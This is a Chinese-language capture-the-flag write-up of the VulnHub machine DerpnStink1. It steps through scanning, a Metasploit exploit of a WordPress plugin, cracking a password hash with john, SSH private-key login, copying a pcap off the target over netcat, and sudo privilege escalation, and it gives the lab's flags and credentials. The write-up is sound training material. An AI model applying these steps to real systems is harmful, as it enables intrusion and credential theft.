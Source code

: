 #  msf Exploit+ssh priKey：DerpnStink1靶机   
原创 MicroPest  MicroPest   2024-04-15 00:06  
  
**特色：**这个靶机的知识点非常多。初做时不太顺利，几个地方卡住，如：在ssh -i 私钥时文件要600权限（  
所有者具有读取和写入权限，而组和其他用户没有任何权限），以及  
ssh证书失效的处理(  
-o PubkeyAcceptedKeyTypes=+ssh-rsa)；二是在msf中exploit犯了一低级错误，居然用nc监听导致占用报错，折腾半天；三是从靶机传文件出来（以前都是传文件到靶机，这次是相反操作）；四是涉及wp插件Exp、john爆破、mysql、ssh私钥、流量包、提权等多项知识点。  
  
靶机下载地址：  
https://www.vulnhub.com/entry/derpnstink-1,221/  
  
靶机  
：  
192.168.137.133  
  
1、扫描开放端口：21、22、80  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEraefvIDKoxwh3dyYAtGnFfKeXFuZP4eMXBjpeG3sBic88II6STUkb0w/640?wx_fmt=png&from=appmsg "")  
  
2、扫描目录  
  
dirb http://192.168.137.133 -w ，加个-w主要是出现警告信息不停止  
  
有很多目录；   
  
3、flag1：  
  
查看主页源码，发现flag1：  
<--flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166) -->  
  
4、登录后台  
  
扫描目录时，发现weblog；访问下，发现需要域名，在hosts中加入域名和ip，再访问，可以了。  
  
找到后台/weblog/wp-admin，用admin/admin发现可以登录，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEArH9vkOffXG7y89Bmr6puddVR4oQRl0iaEpbbMPesgLW6O9uP6ysn4Q/640?wx_fmt=png&from=appmsg "")  
  
5、网站为wordpress模板，扫描  
  
wpscan --url   
http://derpnstink.local/weblog，  
发现插件，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEtWmISTcHp1nV8QTWWzAInGtOkPFfrGaABtAicm6QBDYQC5d8MQlbibgQ/640?wx_fmt=png&from=appmsg "")  
  
6、搜索slideshow gallery漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3ME5vk8HCX0x3dy8u34GibZXnsq4ic9148nET9rHSacibvOkWOQ0Tcu49Zpg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEicQuCFM6eGfvc10bYBA15ibMLKy7ibTalKs92B7aWbEltQ5bODCrNsAOQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MERhjJnkKXhRufhicxrk27VAibM905nDmA1IPKrKS0PDic2icNg2EjyOFyCg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEOduIvrl9020aNJnHiaOs8vpwWqjicWdtqic9Diagzs8LZqxPP9xFKLf9sw/640?wx_fmt=png&from=appmsg "")  
  
太麻烦啊，不但是python2的，还要安装各种包，还是用msf吧。  
  
7、msf直接exploit  
  
用msfconsole，search cve-2014-5460，设置好参数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MESVp9quFL6ppDwMytFT3V6maQu7Qdribmwa1A4Mw11RfT4s8Qeib4PUpw/640?wx_fmt=png&from=appmsg "")  
  
刚开始老是提示端口被占用，后来才发觉用错了，不需要用nc来监听端口，msf直接run就会打开端口，难怪是这个提示，折腾半天。  
  
8、找到wp的配置文件，发现mysql用户名和密码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEEicHO5W7giaoVy6Qaica0mx8Odgo16yfQFXuGnzIEDjJiaJZ8aKAcryhzg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEdCXicAblYIJa3yWyFWzsEribONJLZOh3hPlufhFjJwbZuaicf1eeYEjMw/640?wx_fmt=png&from=appmsg "")  
  
9、连接数据库http://derpnstink.local/php/phpmyadmin/，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MELZEtX79jSWkZfBL2icWVHuE3J1jOjskXZbOTib2xCcpEH5N3nNhOWbDg/640?wx_fmt=png&from=appmsg "")  
  
10、flag2：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3ME4MOxs4UdfM4vGD3EOric4EjD4t9JV9ASHaX3QW0H9IGNego0bevUchg/640?wx_fmt=png&from=appmsg "")  
  
在wp-posts中找到了flag2.txt ：flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)  
  
11、john爆破密码  
  
在wp_users里面有第二个用户  
unclestinky，爆破这个密码  
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41，将它放入到hash.hash文件中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEOEDUtrVoaJDkfxYibbK9zfQic3O4eaoUXuhLbxyfDqkTlia6B9I0CLptA/640?wx_fmt=png&from=appmsg "")  
  
密码为wedgie57  
  
12、ftp  
登录  
stinky  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEq9e8iauqoB7T74Nhhv5tXe81JPfVNpjXoo4pXnBdAf0kHic9tbRYmFxw/640?wx_fmt=png&from=appmsg "")  
  
用stinky和密码  
wedgie57来登录ftp  
  
13、  
ssh的私钥key  
  
在多层的ssh目录下有个key.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3ME5JWFF7FzQVTdvIZOEviblGq97zGIDyiaEqJXYic1QexZ3HicjicPQEvaPTQ/640?wx_fmt=png&from=appmsg "")  
  
应该是个ssh的私钥；  
  
14、ssh私钥方式登录  
stinky  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3ME3R9YZCflVw04uhpVDyiaAib1lbTicPFepoFzgy8zia513BCo91K1pns76w/640?wx_fmt=png&from=appmsg "")  
  
报如上的错，  
  
遂将key.txt权限修改成600，  
chmod 600 key.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEML96B7TgAshTVazjs7828TQOwzuYrv2SvdEcMv6mY5vgu8bAuEOROw/640?wx_fmt=png&from=appmsg "")  
  
还报错了，查询原因，发现是ssh证书失效了的原因，在后面加一段命令-o PubkeyAcceptedKeyTypes=+ssh-rsa，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3ME2VeLDNAFeFG1dEfiaApsXgCZDEtLD6PRibl9YeT5SuQ2CjsXfKVrbMPA/640?wx_fmt=png&from=appmsg "")  
  
15、flag3：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEiauHf7Prl1ibsQWOMErWztMAuo9VrsEeK42uXgOBpI1AVUabJL6bVSqg/640?wx_fmt=png&from=appmsg "")  
  
16、  
在documents目录发现了一个叫derpissues.pcap的流量包，查看字符串，发现是另一个用户mrderp的流量  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEQDFNQ6lZIqAPXyZQhRgVgh3TiahKNlzNCuLJY7B5KULbCAKHEPic7DQQ/640?wx_fmt=png&from=appmsg "")  
  
17、下载文件到本地分析，  
  
在攻击中监听待传输的文件，  
   
nc -lvvp 1234 > derpissues.pcap  
  
靶机上 nc -nv 192.168.137.128 1234 < derpissues.pcap  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3ME5zqlfGPLGQkTuW5sBOm4qUyBpynNjyaZKlnb9LQGfYS7rVpU2SbVoA/640?wx_fmt=png&from=appmsg "")  
  
将流量包从靶机下载到攻击机中，查看  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEA66c4aC8bwdpBZqTeZD9Rt2xLuL9a5r1ZpFkTSjJHMPwZaoEWT3EKA/640?wx_fmt=png&from=appmsg "")  
  
找到密码derpderpderpderpderpderpderp  
  
18、ssh登录mrderp用户  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEWhy1NrAbZKGyRyA7dqRUIAMN8RTRgLxOmeFXyq5wibzicEsswoPMAj6Q/640?wx_fmt=png&from=appmsg "")  
  
在Desktop目录找到helpdesk.log文件查看  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEvVCjicLawZOvT1bFbGFoGyiavpFdmW1DOC6aPfq9wwR8OP5tSICjF66w/640?wx_fmt=png&from=appmsg "")  
  
按照提示去访问这个地址  
https://pastebin.com/RzK9WfGw  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEPozStIJtMXjzicb2ficL2KT9Udr78ZIPjfBXBCYj8Z0NaeXiboxWQdOQQ/640?wx_fmt=png&from=appmsg "")  
  
sudo -l，结果也一样  
  
19、提权  
1. mrderp ALL=(ALL) /home/mrderp/binaries/derpy*  
  
这是一个linux sudo命令知识点，大概意思：允许mrderp用户在主机上以root用户权限读写执行/home/mrderp/binaries/目录下derpy开头的文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEwxtG5UYCEUgaWlGn7MQU4MQvn91nAAu5Xicz2VFwibLNfibcIVVSXq8Rg/640?wx_fmt=png&from=appmsg "")  
  
提示可以在靶机下运行derpy二进制  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MElab2W6Tib7m9qV5IsMZh6FGhMDO8zaZV6s2EvYhmg2RVGBbiabBd2uGQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEUFKr38sgMVZbJN2M10qWvozicPLEncLxCusNCBdbJ1GYEAgZHh1Pw9g/640?wx_fmt=png&from=appmsg "")  
  
运行，提权成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3ME99UYMNfkbicVZbiae1gtMOrkyh0AAxVbv0ibichKT0jFct2oEnOs20ibspg/640?wx_fmt=png&from=appmsg "")  
  
20、flag4：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLXO8aGiaUfNLLl5FpZcq3MEoBGZPEWlFcBlj1mvGba2TPAfevdhZAic0Mj7sJMclaEw1mdibLIZZGhg/640?wx_fmt=png&from=appmsg "")  
  
  
  
